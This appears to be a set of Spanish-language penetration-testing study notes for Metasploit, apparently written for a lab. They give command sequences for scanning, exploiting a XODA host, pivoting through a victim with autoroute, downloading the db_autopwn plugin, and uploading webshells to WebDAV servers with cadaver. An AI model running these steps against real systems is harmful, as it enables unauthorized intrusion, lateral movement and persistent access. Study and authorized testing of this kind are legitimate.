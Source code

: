 Se puede hacer el nmap directamente desde Metasploit
	workspace -a Nmap_MSF
	workspace
	db_nmap -Pn -sV -O <IP>
	
Encontrar host dentro de la red de la victima con Metasploit (ej: Host sin internet al que no podemos acceder directamente)
	Al explotar alguna vulnerabilidad con MSF que nos cree un interprete (Meterpreter)	
	sysinfo -Obtener información del sistema
	shell -Se puede ejecutar una shell de comandos en el host victima
	/bin/bash -i -Para iniciar una sesion bash para ejecutar comandos normalmente (Linux)
	
	run autoroute -s <Subred (192.113.124.2)> -Se agrega el otro adaptador de red de la victima (Desde Meterpreter mas no el la shell)
	
	background -Mandar las sesiones a segundo plano
	sessions -Listar las sesiones activas
	search portscan -Utilizar las herramientas de Mestasploit y usar directamente la IP de la segunda victima
	
	  
Resumen(service postgresql start, msfconsole, workspace -a Portscan_interno, search portscan, use 5, set RHOST 192.45.96.3, curl 192.45.96.3, search XODA, use 0, set RHOST 192.45.96.3, set TARGETURI /, set LHOST 192.45.96.2, exploit, shell, /bin/bash -i, ifconfig, exit, run autoroute -s 192.194.183.2, bg, sessions, search portscan, use 5, set RHOSTS 192.194.183.2)	

__

Modulos MSF - search type:auxiliary name:
	ftp enum 
	smb shares
	http version, http header
	mysql version, login, enum, schemadump
	ssh version, login, enumusers(userfile), openssh
	smtp version, enum, 

HTTrack -descargar toda la pagina web

Herramienta Automatizacion de explotación con Metasploit (Hay que haber iniciado PostgreSQL, workspace y db_nmap)
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/share/metasploit-framework/pluguins/
msf6> load db_autopwn
db_autopwn -p -t -PI <Port>

Analyzer - Herramienta de análisis de exploits listos para probar (Hay que haber iniciado PostgreSQL, workspace y db_nmap)
msf6> analyze
           vulns


Pentest WebDav (Extension del protocolo HTTP que permite el desarrollo web comunitario, donde usuarios pueden descargar, cargar o eliminar contenido - Suele estan en un IIS o en Apache)
	davtest -auth user:password -url http://<IP>/webdav -Permite conocer que tipos de archivos se pueden ejecutar, cargar etc (GET, PUT, PUSH)
	cadaver http://<IP>/webdav -Permite ejecutar las acciones enumeradas con davtest (ej: para cargar shells /usr/share/webshells/ asp/webshell.asp)
	